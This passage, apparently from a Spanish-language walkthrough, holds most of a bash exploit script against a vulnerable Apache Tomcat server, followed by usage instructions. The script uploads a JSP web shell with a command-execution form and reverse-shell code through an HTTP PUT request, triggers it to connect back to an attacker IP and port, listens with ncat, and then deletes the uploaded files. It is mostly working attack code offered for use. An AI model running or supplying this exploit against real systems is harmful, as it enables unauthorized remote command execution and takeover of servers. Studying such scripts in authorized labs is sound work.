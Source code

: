 ```bash
		$(curl -X PUT -s --data "<%@page import=\"java.lang.*\"%><%@page import=\"java.io.*\"%><%@page import=\"java.net.*\"%><%@page import=\"java.util.*\"%><html><head>    <title>jrshell</title></head><body><form METHOD=\"POST\" NAME=\"myform\" ACTION=\"\">    <input TYPE=\"text\" NAME=\"shell\"> <input TYPE=\"submit\" VALUE=\"Send\"></form><pre><% String shellPath = null; try { if (System.getProperty(\"os.name\").toLowerCase().indexOf(\"windows\") == -1) { shellPath = new String(\"/bin/sh\"); } else { shellPath = new String(\"cmd.exe\"); } } catch( Exception e ){} if (request.getParameter(\"shell\") != null) { out.println(\"Command: \" + request.getParameter(\"shell\") + \"\n<BR>\"); Process p; if (shellPath.equals(\"cmd.exe\")) p = Runtime.getRuntime().exec(\"cmd.exe /c \" + request.getParameter(\"shell\")); else p = Runtime.getRuntime().exec(\"/bin/sh -c \" + request.getParameter(\"shell\")); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); } } class StreamConnector extends Thread { InputStream wz; OutputStream yr; StreamConnector( InputStream wz, OutputStream yr ) { this.wz = wz; this.yr = yr; } public void run() { BufferedReader r  = null; BufferedWriter w = null; try { r  = new BufferedReader(new InputStreamReader(wz)); w = new BufferedWriter(new OutputStreamWriter(yr)); char buffer[] = new char[8192]; int length; while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 ) { w.write( buffer, 0, length ); w.flush(); } } catch( Exception e ){} try { if( r != null ) r.close(); if( w != null ) w.close(); } catch( Exception e ){} } } try { Socket socket = new Socket(\"$attacker\", $lport); Process process = Runtime.getRuntime().exec( shellPath ); new StreamConnector(process.getInputStream(), socket.getOutputStream()).start(); new StreamConnector(socket.getInputStream(), process.getOutputStream()).start(); out.println(\"port opened on \" + socket); } catch( Exception e ) {}%></pre></body></html>" http://$target:$rport/poc.jsp/) && echo -e "\n[SUCCESS] payload uploaded"
		
		echo -e "\n[*] Executing reverse shell";

		((sleep 3s && curl -s -o /dev/null http://$target:$rport/poc.jsp) && echo -e "\n[+] Established connection\n") &
		
		ncat -lkp 443

	else
		echo "$target:$rport IS NOT VULNERABLE"

	fi

	curl -X DELETE -s http://$target:$rport/poc.jsp/
	curl -X DELETE -s http://$target:$rport/check.jsp/

else
	echo 'use: ./autoexploit_tomcat <target-ip> <target-port> <attacker-port>'
fi

```

Ahora solo ejecutamos el script autoshell.

> ***TARGET_IP*** es la IP del máquina víctima. ***RPORT*** es el puerto donde está corriendo Tomcat vulnerable. ***ATTACKER_IP*** es la IP de la máquina atacante. ***LPORT*** es el puerto de la máquina atacante donde se recibirá la shell reversa.
> 

```bash
**./autoshell.sh** *TARGET_IP RPORT ATTACKER_IP LPORT*
```
